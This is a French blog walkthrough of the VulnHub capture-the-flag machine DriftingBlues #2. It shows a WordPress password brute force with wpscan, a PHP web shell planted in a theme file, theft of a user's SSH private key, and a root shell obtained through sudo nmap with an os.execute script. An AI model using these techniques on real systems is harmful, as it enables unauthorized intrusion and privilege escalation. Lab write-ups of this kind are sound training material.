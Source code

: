 # Solution du CTF DriftingBlues #2 de VulnHub

Intro
-----

Après [le précédent opus](http://devloop.users.sourceforge.net/index.php?article249/solution-du-ctf-driftingblues-1-de-vulnhub) j'attaque donc ce second épisode des CTF DriftingBlues, toujours téléchargeable sur VulnHub  

```plain
PORT   STATE SERVICE VERSION 
21/tcp open  ftp     ProFTPD 
| ftp-anon: Anonymous FTP login allowed (FTP code 230) 
|_-rwxr-xr-x   1 ftp      ftp       1403770 Dec 17  2020 secret.jpg 
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA) 
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA) 
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519) 
80/tcp open  http    Apache httpd 2.4.38 ((Debian)) 
|_http-title: Site doesn't have a title (text/html). 
|_http-server-header: Apache/2.4.38 (Debian)
```

Il y a un serveur FTP qui autorise les connexions anonymes comme nous le montre Nmap. Toutefois avec Filezilla on voit qu'on ne peut pas remonter dans l'arborescence. On a donc que ce fichier *secret.jpg* que l'on peut récupérer.  

Il s'agit d'une photo d'un guitariste et un coup d'éditeur hexa ou la récupération des métadonnées EXIF avec le premier logiciel de traitement photo trouvé ne sortent rien d'intéressant.  

Une recherche d'image inversée nous apprend que le guitariste est *Otis Rush*. Potentiellement un indice.  

Utiliser les outils de stéganographie est souvent une plaie. Le code est ancien et ne compile pas forcément sur des machines récentes. J'ai trouvé [une image Docker](https://hub.docker.com/r/dominicbreuker/stego-toolkit)
 qui contient les binaires utiles, c'est l'occasion d'essayer :  

```plain
$ docker run -it --rm -v $(pwd):/data dominicbreuker/stego-toolkit /bin/bash
root@eb06c29f1622:/data# stegdetect secret.jpg  
secret.jpg : negative
```

Oups... Les autres outils présents n'ont pas été plus utiles. Passons à autre chose.  

La force
--------

Via énumération sur le serveur web on trouve très vite un Wordpress à l'adresse */blog*. Les posts présents ont tous été créés par un utilisateur baptisé *albert*.  

Vu que j'avais du temps AFK j'ai lancé wpscan pour bruteforcer le compte avec la wordlist rockyou :  

```plain
$ docker run -v /tools/wordlists/:/data -it --rm wpscanteam/wpscan --url http://192.168.56.7/blog/ -U albert -P /data/rockyou.txt
--- snip ---
[!] Valid Combinations Found: 
 | Username: albert, Password: scotland1
```

Je suppose qu'il y avait un indice avec le guitariste mais même en regardant sa page wikipedia pas de rapport à L'Ecosse, peut être qu'un des posts en faisait mention :-/   

Quoiqu'il en soit une fois connecté sur l'interface admin du Wordpress on va dans *Appeareance* puis *Theme Editor* pour éditer l'un des fichiers PHP du thème courant (*footer.php* pour moi) :  

```php
<?php if (isset($_GET["cmd"])) { system($_GET["cmd"]); } ?>
```

Comme ça je peux passer des commandes sur le Wordpress et obtient l'output en bas de page.  

Mercury
-------

Un des premiers réflexes est de regarder le fichier */etc/passwd* qui nous renseigne sur les utilisateurs présents :  

```plain
freddie:x:1000:1000:freddie,,,:/home/freddie:/bin/bash
```

Cet utilisateur dispose du flag *user.txt* qui ne nous est pas lisible. En revanche sa clé privée SSH l'est !  

```plain
www-data@driftingblues:/var/www/html/blog$ ssh -i /home/freddie/.ssh/id_rsa freddie@127.0.0.1 
Could not create directory '/var/www/.ssh'. 
load pubkey "/home/freddie/.ssh/id_rsa": Permission denied 
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established. 
ECDSA key fingerprint is SHA256:/+Mlgo9EqzVybvI0rol0jnjKctAvhqRyag+YeY+IMrs. 
Are you sure you want to continue connecting (yes/no)? yes 
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts). 
Linux driftingblues 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64 

The programs included with the Debian GNU/Linux system are free software; 
the exact distribution terms for each program are described in the 
individual files in /usr/share/doc/*/copyright. 

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent 
permitted by applicable law. 
freddie@driftingblues:~$ cat user.txt  
flag 1/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 
```

GTFO
----

```plain
freddie@driftingblues:~$ sudo -l 
Matching Defaults entries for freddie on driftingblues: 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin 

User freddie may run the following commands on driftingblues: 
    (root) NOPASSWD: /usr/bin/nmap
```

*Freddie* peut utiliser Nmap en tant que root sans donner de mot de passe. Pratique mais faillible [d'après GTFObins](https://gtfobins.github.io/gtfobins/nmap/) :  

```plain
freddie@driftingblues:~$ echo 'os.execute("/bin/sh")' > command.py
freddie@driftingblues:~$ sudo /usr/bin/nmap --script=command.py 
Starting Nmap 7.70 ( https://nmap.org ) at 2022-01-19 13:30 CST 
NSE: Warning: Loading 'command.py' -- the recommended file extension is '.nse'. 
# uid=0(root) gid=0(root) groups=0(root) 
# # root.txt 
# flag 2/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations!
```

Cette exploitation cache l'input d'où l'absence des commandes dans l'affichage précédent.  


*Published January 19 2022 at 21:01*